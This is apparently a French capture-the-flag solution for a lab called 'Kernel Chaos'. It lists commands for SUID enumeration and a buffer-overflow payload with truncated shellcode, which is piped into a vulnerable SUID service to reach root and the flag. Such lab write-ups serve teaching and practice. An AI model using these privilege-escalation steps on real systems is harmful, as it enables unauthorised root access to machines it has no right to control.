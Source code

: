 # Solution : Kernel Chaos

## Étape 1 : Énumération
```bash
# Vérifier la version du kernel
uname -a

# Lister les binaires SUID
find / -perm -4000 -type f 2>/dev/null

# Examiner le binaire vulnérable
ls -l /usr/local/bin/vulnerable-service
```

## Étape 2 : Exploitation
```bash
# Compiler l'exploit
gcc -o exploit exploit.c

# Création du payload
python -c 'print "A"*76 + "\x31\xc0\x50\x68\x2f\x2f..."'

# Exécution de l'exploit
./exploit
```

## Étape 3 : Élévation de Privilèges
```bash
# Exécuter le service vulnérable
/usr/local/bin/vulnerable-service

# Injecter le payload
(python -c 'print "A"*76 + "\x31\xc0..."'; cat) | /usr/local/bin/vulnerable-service
```

## Flag
Une fois root obtenu, le flag se trouve dans /root/flag.txt.